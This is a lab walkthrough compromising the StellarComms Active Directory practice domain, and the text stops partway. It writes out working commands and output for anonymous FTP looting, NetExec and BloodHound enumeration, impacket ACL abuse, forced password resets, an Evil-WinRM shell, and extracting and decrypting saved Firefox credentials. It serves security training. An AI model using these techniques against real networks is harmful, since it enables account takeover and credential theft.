In this walkthrough, we will be compromising StellarComms, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting from a valid username, `junior.analyst`, and no password. Anonymous FTP on the domain controller serves a user guide with a default password that still works for that account. `junior.analyst` holds `WriteOwner` over the `STELLAROPS-CONTROL` group, which holds `ForceChangePassword` over `ops.controller`, so we take ownership of the group, grant ourselves the right to add members, and join it. That lets us reset `ops.controller`'s password for a WinRM shell. `ops.controller`'s Firefox profile holds a saved login that decrypts to `astro.researcher`'s password, and `astro.researcher`'s `WriteDacl` over `eng.payload` gives us a second reset. `eng.payload` can read the gMSA password of `SATLINK-SERVICE$`, whose replication rights over the domain let impacket-secretsdump pull every hash, and the Administrator NT hash gives us a shell on the domain controller.


Created by: [2ubZ3r0](https://www.hacksmarter.org/courses/e0f57d12-2c23-4d6a-8c55-b85010526e52)

Let's get started.

## Objective

Stellar Communications, a regional telecommunications provider, has retained the Hack Smarter Red Team to conduct a covert internal network penetration test. The client is concerned about the resilience of their internal Active Directory infrastructure against insider threats and compromised VPN endpoints.

Your objective is to simulate a compromised remote worker, pivot through the internal network, and demonstrate the ability to compromise high-value targets.

Initial Access:

Our initial access team has successfully established a VPN tunnel into the environment. We have identified a valid username, likely belonging to a new hire or junior staff member.

**Starting Credentials**

```
Username: junior.analyst
Password: Unknown
```

## Scope

**Target:** `10.1.117.162`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.117.162 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 126 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 09-12-25  12:29PM       <DIR>          Docs
| 09-10-25  12:15PM       <DIR>          IT
|_09-10-25  12:44PM       <DIR>          Pics
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-10-09 14:59:39Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: stellarcomms.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: stellarcomms.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: STELLARCOMMS
|   NetBIOS_Domain_Name: STELLARCOMMS
|   NetBIOS_Computer_Name: DC-STELLAR
|   DNS_Domain_Name: stellarcomms.local
|   DNS_Computer_Name: DC-STELLAR.stellarcomms.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-09T15:00:35+00:00
| ssl-cert: Subject: commonName=DC-STELLAR.stellarcomms.local
| Issuer: commonName=DC-STELLAR.stellarcomms.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-08T14:57:08
| Not valid after:  2027-04-09T14:57:08
| MD5:     3974 1ba2 8eeb d752 e6d5 5c3b 4bbb cbc0
| SHA-1:   d3a9 3773 b5d5 6077 5ed3 e66e 7a3a aa34 964c b324
| SHA-256: 9b69 f4b1 c33a 8348 de12 ec3b 19ff 3b1c 0fd4 d2ea e629 0745 2b8f 8537 8657 5e4c
|_ssl-date: 2026-10-09T15:00:44+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49729/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC-STELLAR; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985, with FTP on 21 and IIS on 80 also exposed, neither of which is part of a default domain controller install. The LDAP banner gives us the domain as `stellarcomms.local`, and the RDP NTLM info confirms the hostname as `DC-STELLAR.stellarcomms.local`. We add both to `/etc/hosts` before continuing.

## Access as junior.analyst

Nmap's `ftp-anon` script reports anonymous login allowed on 21, with three directories at the root, so we start there. We log in as `anonymous` and leave the password blank.

```
ftp 10.1.117.162
```

```
Name: anonymous
Password:
ftp> dir
229 Entering Extended Passive Mode (|||50019|)
150 Opening ASCII mode data connection.
09-12-25  12:29PM       <DIR>          Docs
09-10-25  12:15PM       <DIR>          IT
09-10-25  12:44PM       <DIR>          Pics
ftp> cd Docs
ftp> dir
229 Entering Extended Passive Mode (|||50027|)
125 Data connection already open; Transfer starting.
09-10-25  01:11PM                82434 Browser_policy.pdf
09-10-25  01:02PM                 1288 LEO_2A_Report.txt
09-10-25  01:03PM                 1024 LEO_3B_Report.txt
09-10-25  01:03PM                 1101 LEO_5C_Report.txt
09-10-25  12:35PM                71171 StellarComms_Whitepaper.pdf
09-12-25  12:26PM                87925 Stellar_UserGuide.pdf
09-10-25  12:12PM                  185 Transmission_Schedule.txt
ftp> get "Stellar_UserGuide.pdf"
```

`Docs` holds a user guide alongside a set of reports and papers, and we pull the guide down.



*Anonymous FTP session listing the Docs directory and downloading Stellar_UserGuide.pdf*

The guide gives a default password, `Galaxy123!`.



*Stellar_UserGuide.pdf documenting the default password Galaxy123!*

We have a username but no password, so we try the default against `junior.analyst`.

```
nxc smb 10.1.117.162 -u 'junior.analyst' -p 'Galaxy123!' --shares
```

```
SMB         10.1.117.162    445    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.117.162    445    DC-STELLAR       [+] stellarcomms.local\junior.analyst:Galaxy123! 
SMB         10.1.117.162    445    DC-STELLAR       [*] Enumerated shares
SMB         10.1.117.162    445    DC-STELLAR       Share           Permissions     Remark
SMB         10.1.117.162    445    DC-STELLAR       -----           -----------     ------
SMB         10.1.117.162    445    DC-STELLAR       ADMIN$                          Remote Admin
SMB         10.1.117.162    445    DC-STELLAR       C$                              Default share
SMB         10.1.117.162    445    DC-STELLAR       IPC$            READ            Remote IPC
SMB         10.1.117.162    445    DC-STELLAR       NETLOGON        READ            Logon server share 
SMB         10.1.117.162    445    DC-STELLAR       SYSVOL          READ            Logon server share 
```



*Validating junior.analyst credentials with NetExec*

Valid, with READ on the default shares.

## BloodHound Enumeration

With a working credential, we collect BloodHound data. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.117.162 -u 'junior.analyst' -p 'Galaxy123!' --bloodhound --collection All --dns-server 10.1.117.162
```

```
LDAP        10.1.117.162    389    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.117.162    389    DC-STELLAR       [+] stellarcomms.local\junior.analyst:Galaxy123! 
LDAP        10.1.117.162    389    DC-STELLAR       Resolved collection methods: psremote, group, session, objectprops, dcom, rdp, trusts, container, localadmin, acl
LDAP        10.1.117.162    389    DC-STELLAR       Done in 0M 17S
LDAP        10.1.117.162    389    DC-STELLAR       Compressing output into /home/kali/.nxc/logs/DC-STELLAR_10.1.117.162_2026-10-09_112429_bloodhound.zip
```

We import the data and mark `junior.analyst` as owned.

## Access as ops.controller

In BloodHound, `junior.analyst` holds `WriteOwner` over the `STELLAROPS-CONTROL` group.



*BloodHound WriteOwner: junior.analyst over STELLAROPS-CONTROL*

`STELLAROPS-CONTROL` in turn holds `ForceChangePassword` over `ops.controller`, so membership in the group is the way in.



*BloodHound ForceChangePassword: STELLAROPS-CONTROL over ops.controller*

`WriteOwner` lets us set ourselves as the object's owner, and an owner can rewrite the DACL to grant itself full control. `owneredit` makes `junior.analyst` the group's owner.

```
impacket-owneredit -action write -new-owner 'junior.analyst' -target 'STELLAROPS-CONTROL' 'stellarcomms.local'/'junior.analyst':'Galaxy123!'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1085439814-3345093241-3808503133-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=stellarcomms,DC=local
[*] OwnerSid modified successfully!
```



*owneredit replacing Domain Admins with junior.analyst as the owner of STELLAROPS-CONTROL*

We only need to change the group's membership, so rather than full control we grant `junior.analyst` `WriteMembers`, which covers the group's member attribute.

```
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'junior.analyst' -target-dn 'CN=STELLAROPS-CONTROL,CN=USERS,DC=STELLARCOMMS,DC=LOCAL' 'stellarcomms.local'/'junior.analyst':'Galaxy123!'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/dacledit.py:390: DeprecationWarning: codecs.open() is deprecated. Use open() instead.
  with codecs.open(self.filename, 'w', 'utf-8') as outfile:
[*] DACL backed up to dacledit-20261009-114854.bak
[*] DACL modified successfully!
```



*dacledit writing WriteMembers for junior.analyst onto the STELLAROPS-CONTROL group*

Now we add `junior.analyst` to the group.

```
net rpc group addmem 'STELLAROPS-CONTROL' 'junior.analyst' -U 'stellarcomms.local'/'junior.analyst'%'Galaxy123!' -S '10.1.117.162'
```

That returns silently, so we reset the password.

```
net rpc password 'ops.controller' '0xB1rdWasHere1337!' -U 'stellarcomms.local'/'junior.analyst'%'Galaxy123!' -S '10.1.117.162'
```

Silent again, so we validate.

```
nxc smb 10.1.117.162 -u 'ops.controller' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.117.162    445    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.117.162    445    DC-STELLAR       [+] stellarcomms.local\ops.controller:0xB1rdWasHere1337! 
SMB         10.1.117.162    445    DC-STELLAR       [*] Enumerated shares
SMB         10.1.117.162    445    DC-STELLAR       Share           Permissions     Remark
SMB         10.1.117.162    445    DC-STELLAR       -----           -----------     ------
SMB         10.1.117.162    445    DC-STELLAR       ADMIN$                          Remote Admin
SMB         10.1.117.162    445    DC-STELLAR       C$                              Default share
SMB         10.1.117.162    445    DC-STELLAR       IPC$            READ            Remote IPC
SMB         10.1.117.162    445    DC-STELLAR       NETLOGON        READ            Logon server share 
SMB         10.1.117.162    445    DC-STELLAR       SYSVOL          READ            Logon server share 
```



*Validating ops.controller credentials with NetExec*

Valid, with READ on the default shares.

## Shell as ops.controller (user.txt)

We mark `ops.controller` as owned. It holds no outbound object control, but it sits in Remote Management Users.



*BloodHound showing ops.controller membership in Remote Management Users*

Remote Management Users governs WinRM access, so we connect with Evil-WinRM.

```
evil-winrm -i 10.1.117.162 -u 'ops.controller' -p '0xB1rdWasHere1337!'
```

In the Evil-WinRM session, we list the desktop.

```
cd ..

cd Desktop

dir
```

```


    Directory: C:\Users\ops.controller\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/10/2025  11:22 AM       56063872 Firefox Setup 91.0esr.exe
-a----        9/10/2025  10:49 AM           1419 user.txt
```



*The Evil-WinRM session as ops.controller with user.txt listed on the desktop*

## Access as astro.researcher

A Firefox 91 ESR installer sits on the desktop next to `user.txt`, which suggests the browser may hold saved credentials. Firefox stores saved logins in `logins.json` with the usernames and passwords encrypted, and keeps the key that decrypts them in `key4.db`. Both live in the user's profile folder, so we list the profiles.

```
cd C:\Users\ops.controller\AppData\Roaming\Mozilla\Firefox\Profiles\

dir
```

```
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/10/2025  11:25 AM                67wyfsfs.default
d-----        9/10/2025   3:26 PM                v8mn7ijj.default-esr
```

Two profiles. The `default-esr` one is the profile the ESR build creates, so we look there.

```
cd v8mn7ijj.default-esr

dir
```

```
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/10/2025  11:38 AM                bookmarkbackups
d-----        9/10/2025  11:25 AM                browser-extension-data
d-----        9/10/2025  11:30 AM                crashes
d-----        9/10/2025   3:26 PM                datareporting
d-----        9/10/2025  11:35 AM                features
d-----        9/10/2025  11:30 AM                gmp-gmpopenh264
d-----        9/10/2025  11:31 AM                gmp-widevinecdm
d-----        9/10/2025  11:25 AM                minidumps
d-----        9/10/2025   3:26 PM                saved-telemetry-pings
d-----        9/10/2025  11:25 AM                security_state
d-----        9/10/2025  11:30 AM                sessionstore-backups
d-----        9/10/2025  11:25 AM                storage
-a----        9/10/2025  11:35 AM             24 addons.json
-a----        9/10/2025  11:28 AM           3904 addonStartup.json.lz4
-a----        9/10/2025   3:14 PM           1234 AlternateServices.txt
-a----        9/10/2025  11:30 AM            204 broadcast-listeners.json
-a----        9/10/2025  11:35 AM         229376 cert9.db
-a----        9/10/2025  11:25 AM            197 compatibility.ini
-a----        9/10/2025  11:25 AM            939 containers.json
-a----        9/10/2025  11:25 AM         229376 content-prefs.sqlite
-a----        9/10/2025  11:25 AM          98304 cookies.sqlite
-a----        9/10/2025  11:25 AM           1241 extension-preferences.json
-a----        9/10/2025  11:37 AM          37902 extensions.json
-a----        9/10/2025  11:25 AM        5242880 favicons.sqlite
-a----        9/10/2025  11:29 AM         262144 formhistory.sqlite
-a----        9/10/2025  11:25 AM            683 handlers.json
-a----        9/10/2025  11:29 AM         294912 key4.db
-a----        9/10/2025  11:29 AM            671 logins.json
-a----        9/10/2025  11:28 AM              0 parent.lock
-a----        9/10/2025  12:04 PM          98304 permissions.sqlite
-a----        9/10/2025  11:25 AM            509 pkcs11.txt
-a----        9/10/2025   3:26 PM        5242880 places.sqlite
-a----        9/10/2025   3:26 PM           9885 prefs.js
-a----        9/10/2025  11:25 AM          65536 protections.sqlite
-a----        9/10/2025  11:28 AM            185 search.json.mozlz4
-a----        9/10/2025   3:26 PM            288 sessionCheckpoints.json
-a----        9/10/2025   3:26 PM           1903 sessionstore.jsonlz4
-a----        9/10/2025  11:25 AM             18 shield-preference-experiments.json
-a----        9/10/2025  12:34 PM            651 SiteSecurityServiceState.txt
-a----        9/10/2025   3:26 PM           4096 storage.sqlite
-a----        9/10/2025  11:25 AM             50 times.json
-a----        9/10/2025  11:25 AM          98304 webappsstore.sqlite
-a----        9/10/2025  11:34 AM            219 xulstore.json
```



*The v8mn7ijj.default-esr profile in the ops.controller session, with key4.db and logins.json present*

Both files are there, and we download them through the same Evil-WinRM session.

```
download key4.db

download logins.json
```

```
Info: Downloading C:\Users\ops.controller\AppData\Roaming\Mozilla\Firefox\Profiles\v8mn7ijj.default-esr\key4.db to key4.db
                                        
Info: Download successful!

Info: Downloading C:\Users\ops.controller\AppData\Roaming\Mozilla\Firefox\Profiles\v8mn7ijj.default-esr\logins.json to logins.json
                                        
Info: Download successful!
```

[firepwd](https://github.com/lclevy/firepwd) decrypts the logins Firefox saves, and its `firepwd-ng.py` script reads the `key4.db` and `logins.json` pair that modern versions use. Back on our own machine, we install its requirements in a Python virtual environment.

```
python3 -m venv .venv

source .venv/bin/activate

pip install -r requirements.txt
```

Then we put both files in a folder for the script to read.

```
mkdir mozilla

mv key4.db logins.json mozilla
```

```
python3 firepwd-ng.py -d mozilla
```

```
[INFO] - Reading key4-db: verifying master_password
        [!] Master password is correct.
[INFO] - Reading key4-db: obtaining master_key
        [!] Decrypted master_key : 49b0d9e39220e6ece5254561abad4ca4b07f5d709bae863e0808080808080808

[INFO] - Decrypted 1 logins

  URL: http://portal.stellarcomms.local
  User: astro.researcher
  Pass: Cosmos@42

```



*firepwd-ng.py decrypting the saved portal login for astro.researcher*

The script tries an empty primary password by default, and it passes the check because none is set. It decrypts the master key out of `key4.db` and uses it on the one saved login. That login is `astro.researcher`'s, saved for the internal portal. We validate it.

```
nxc smb 10.1.117.162 -u 'astro.researcher' -p 'Cosmos@42' --shares
```

```
SMB         10.1.117.162    445    DC-STELLAR       [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR) (domain:stellarcomms.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.117.162    445    DC-STELLAR       [+] stellarcomms.local\astro.researcher:Cosmos@42 
SMB         10.1.117.162    445    DC-STELLAR       [*] Enumerated shares
SMB         10.1.117.162    445    DC-STELLAR       Share           Permissions     Remark
